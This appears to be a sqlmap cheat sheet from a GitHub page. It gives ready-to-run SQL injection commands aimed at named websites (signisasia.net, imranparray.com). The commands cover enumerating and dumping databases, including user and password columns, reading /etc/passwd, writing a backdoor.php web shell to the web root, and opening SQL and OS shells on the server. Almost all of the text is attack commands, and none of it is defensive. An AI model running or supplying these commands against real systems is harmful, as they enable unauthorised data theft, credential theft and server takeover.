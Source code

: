 # SqlMap Quick CheatSheet


__URL WRITING__

__Single URL__
```console
sqlmap -u http://signisasia.net/books/view?id=1 --dbs
```

__Input Request in File__

- Capture the request with httpheader,burpsuite
- Save it to req.txt
```console
sqlmap -r request.txt
```


__Input Request in File(Test only username parameter)__

- Capture the request with httpheader,burpsuite
- Save it to req.txt
```console
sqlmap -r req.txt -p username
```


__Testing a pattern of URL's__

- If we have test for a URL scheme injection like 

```console
http://signisasia.net/books/1/view
http://signisasia.net/books/2/view
http://signisasia.net/books/3/view
```

- The following URL's can be used to test all the URL's

```console
sqlmap -u http://signisasia.net/books/*/view --dbs
```

__[Post injection Direcltly]__
```console
sqlmap -u http://imranparray.com/login.php --data "username=imx&pass=imx100&submit=Submit" -p username

> --data is the post data send in the request
> -p is the injection point.
```




__Using Cookies__
```console
sqlmap -u http://imranparray.com/welcom.php --cookie="PHPSESSID=adsaasd56454a6s54d54" -u http://imranparray.com/welcome/functionality.php?id=100
```


__Scanning multiple targets__

```console
sqlmap -m urls.txt -dbs --batch'

```

## Exploitation


__Extract Databases__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 --dbs 	
```
__Extract Tables from database__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database --tables
```

__Extract Columns of table_name from database__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database -T table_name --columns
```

__Dumping Data__
```console
sqlmap -u http://signisasia.net/becomemember.php?id=14 -D database -T table_name -C colum1,column2,clumn3 --dump
```





## Speeding Up The process

__Multithreading__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --threads 5
```


__Null-Connection__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --null-connection
```

__HTTP Persistant Connection__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --dbs --keep-alive
```

__Output prediction__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 -D database -T user -c users,password --dump --predict-output
```



## File Privileges

__[Checking privilages]__

```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --privileges
```

__Reading Files from the server__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --file-read=/etc/passwd
```

__Uploading Files/Shell__
```console
sqlmap -u http://signisasia.net/books/view.php?id=100 --file-write=/root/imxx/backdoor.php --file-dest=/var/www/imran.php
```








## Getting Shells


__Sql Shell__

```console
sqlmap -u http://imranparray.com/login.php?id=100 --sql-shell
```

__OS shell__
```console
sqlmap -u http://imranparray.com/login.php?id=100 --os-shell
```

__Os Command Exe without Shell Upload__
```console
sqlmap -u http://imranparray.com/login.php?id=100 --os-cmd "uname -a"
```

__Using Proxy__
```console
sqlmap --proxy="127.0.0.1:8888" -u https://imranparray.com/home.php?id=12 --dbs
```
